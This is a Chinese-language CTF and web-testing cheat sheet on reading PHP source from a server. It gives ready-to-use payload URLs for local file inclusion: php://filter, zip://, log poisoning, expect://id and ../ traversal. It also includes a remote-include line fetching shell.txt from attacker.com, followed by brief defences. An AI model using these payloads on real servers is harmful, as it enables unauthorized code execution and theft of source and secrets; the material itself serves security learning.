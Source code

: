 在Web安全测试或CTF竞赛中，若想查看服务器上的PHP文件（如`/xxx.php`的源码），通常需要利用漏洞或特殊机制。以下是几种常见方法及适用场景：

---

### **1. 直接访问（未配置服务器权限）**
- **条件**：服务器错误配置，允许直接访问`.php`文件而非执行。
- **尝试**：
  ```url
  http://example.com/xxx.php
  ```
- **结果**：
  - 若返回源码：服务器未正确处理PHP文件（罕见）。
  - 若返回空白或执行结果：正常情况（需其他方法）。

---

### **2. 利用文件包含漏洞（LFI）**
当存在本地文件包含漏洞时（如`include($_GET['file'])`），可通过以下方式读取PHP文件：
#### **(1) 使用`php://filter`伪协议**
- **Payload**：
  ```url
  http://example.com/vuln.php?file=php://filter/read=convert.base64-encode/resource=xxx.php
  ```
- **原理**：
  - `php://filter`对文件内容进行Base64编码，避免直接执行PHP代码。
  - 解码后获取源码（如使用`base64 -d`或在线工具）。

#### **(2) 利用`zip://`或`phar://`**
- **Payload**（需先上传恶意压缩包）：
  ```url
  http://example.com/vuln.php?file=zip://malicious.zip%23xxx.php
  ```

---

### **3. 目录遍历+源码备份**
- **查找备份文件**：
  ```url
  http://example.com/xxx.php.bak
  http://example.com/xxx.php~
  http://example.com/.git/xxx.php
  ```
- **适用场景**：开发者遗留的备份文件或版本控制文件。

---

### **4. 日志文件注入**
- **条件**：可写入服务器日志（如`/var/log/apache2/access.log`）。
- **步骤**：
  1. 将PHP代码注入User-Agent或Referer。
  2. 通过LFI包含日志文件：
     ```url
     http://example.com/vuln.php?file=/var/log/apache2/access.log
     ```

---

### **5. 利用PHP配置漏洞**
- **`allow_url_include=On`时**：
  ```url
  http://example.com/vuln.php?file=http://attacker.com/shell.txt
  ```
  （需配合远程文件包含漏洞）

---

### **6. 特殊协议或环境变量**
- **`expect://`协议**（需安装Expect扩展）：
  ```url
  http://example.com/vuln.php?file=expect://id
  ```
- **`/proc/self/environ`**：
  ```url
  http://example.com/vuln.php?file=/proc/self/environ
  ```

---

### **7. 暴力破解或信息泄露**
- **工具扫描**：
  - 使用`dirsearch`或`gobuster`扫描目录，寻找`.php`文件。
  - 检查`robots.txt`或`.git`泄露。

---

### **防御措施**
1. **禁用危险函数**：  
   - 在`php.ini`中设置`allow_url_include=Off`、`allow_url_fopen=Off`。
2. **过滤输入**：  
   - 禁止用户输入包含`../`、`php://`等特殊字符。
3. **文件权限控制**：  
   - 确保Web用户无权读取敏感文件（如`.php`源码）。

---

### **总结**
| **方法**               | **适用场景**                          | **示例**                                                                 |
|------------------------|--------------------------------------|-------------------------------------------------------------------------|
| **直接访问**           | 服务器配置错误                       | `http://example.com/xxx.php`                                            |
| **`php://filter`**     | 存在LFI漏洞                          | `?file=php://filter/convert.base64-encode/resource=xxx.php`             |
| **备份文件**           | 开发者遗留备份                       | `http://example.com/xxx.php.bak`                                        |
| **日志注入**           | 可写入日志文件                       | `?file=/var/log/apache2/access.log`                                     |
| **目录遍历**           | 路径过滤不严                         | `?file=../../xxx.php`                                                   |

**注意**：未经授权查看服务器文件可能违法，仅限合法测试或CTF竞赛中使用。